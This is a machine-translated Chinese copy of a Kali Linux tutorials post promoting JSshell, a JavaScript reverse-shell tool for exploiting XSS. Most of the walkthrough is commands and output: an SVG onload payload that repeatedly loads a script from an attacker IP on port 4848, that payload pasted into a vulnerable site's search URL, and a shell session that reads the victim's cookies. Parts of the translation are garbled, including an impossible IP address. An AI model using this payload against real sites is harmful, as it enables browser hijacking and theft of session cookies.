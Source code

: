 # JSshell——一个 JavaScript 反向 shell，用于远程利用 XSS 或寻找盲人 XSS

> 原文：<https://kalilinuxtutorials.com/jsshell/>

[![JSshell – A JavaScript Reverse Shell For Exploiting XSS Remotely Or Finding Blind XSS](img/3b45e0255bd67e150d58b4f4094e007a.png "JSshell – A JavaScript Reverse Shell For Exploiting XSS Remotely Or Finding Blind XSS")](https://1.bp.blogspot.com/-wL4S5kkBwGE/XuE_8RyG41I/AAAAAAAAGmA/wk4_2nJg8FgWl1wlPnS8EnXxkJSz52eyACLcBGAsYHQ/s1600/JSshell%25281%2529.png)

**JSshell** 是一个 JavaScript 反向 shell。这用于远程利用 XSS，帮助找到盲人 XSS。

该工具适用于 Unix 和 Windows 操作系统，可以在 Python 2 和 Python 3 上运行。这是 JShell 的一个重大更新——一个通过 s0med3v 用 XSS 获得 JavaScript shell 的工具。JSshell 也不需要 Netcat(不同于其他 javascript shells)。

**用途**

*   生成 JS 反向 shell 负载:-g
*   设置监听和生成有效负载的本地端口号(默认情况下，将设置为 4848): -p
*   设置用于生成有效负载的本地源地址(JSshell 将默认检测您的 IP 地址):-s
*   为 shell 连接设置超时(如果用户退出页面，shell 将暂停，如果您设置了超时，过一会儿没有响应，shell 将自动关闭):-w

得到 shell 后执行一个命令:-c

**示例用法:**

js . py
js . py-g
js . py-p 1234
js . py-s 48 . 586 . 1 . 23-g
js . py-c " alert(document . cookie)"-w 10

运行 JSshell 的示例:

这是一个使用 JSshell 逐步利用远程 XSS 的示例。

首先，我们将生成一个反向 JS shell 有效负载，并将 shell 超时设置为 20 秒:

~ # whoami
root
~ # ls
readme . MD js . py
~ # python 3 js . py-g-w 20
Payload:<SVG/onload = setInterval(function(){ with(document)body . appendchild(createElement(" script "))。src = "//171 . 224 . 181 . 106:4848 "}，999) >

监听[any] 4848 上的传入 JS shell …

现在将此有效负载粘贴到易受 XSS 攻击的网站(或 URL ):

[https://vulnwebs1te.com/b/search?q=](https://vulnwebs1te.com/b/search?q=)<SVG/onload = setInterval(function(){ with(document)body . appendchild(createElement(" script "))。src = "//171 . 224 . 181 . 106:4848 "}，1248) >

访问该页面，现在我们将看到我们得到了反向 JS shell:

有效载荷:

监听【any】4848 上传入的 JS shell……
从【75.433.24.128】端口 39154 获取 JS shell 到桌面-1 gsl2o 2 4848
$ established
$ the
$ shell
$
$
$ help
JS shell 使用 javascript 代码作为 shell 命令。还支持一些命令:
帮助此帮助
退出，quit 退出 JS shell

现在让我们执行一些命令:

$ var test = ' hacked '
$ alert(hacked)
$

浏览器收到了警告:黑客入侵

$ prompt(document.cookie)
$

并且浏览器打印用户 cookie:j session = 3 BDA 8…

$ exit
~ # whoami
root
~ # pwd
/home/sheld3v
~ #

我们放弃了！

**信用**

这是 shelld3v 用秘密账号在 HackOne 和 Bugcrowd 上黑出来的！这个工具的灵感来自于 JShell (s0med3v)，使用了 BruteLogic 有效载荷。JSshell 2.0 将有一些新特性，包括:

*   更多有效载荷用于、
*   一些快捷命令:打印当前会话、域、端点等
*   更好的 GUI

[**Download**](https://github.com/shelld3v/JSshell)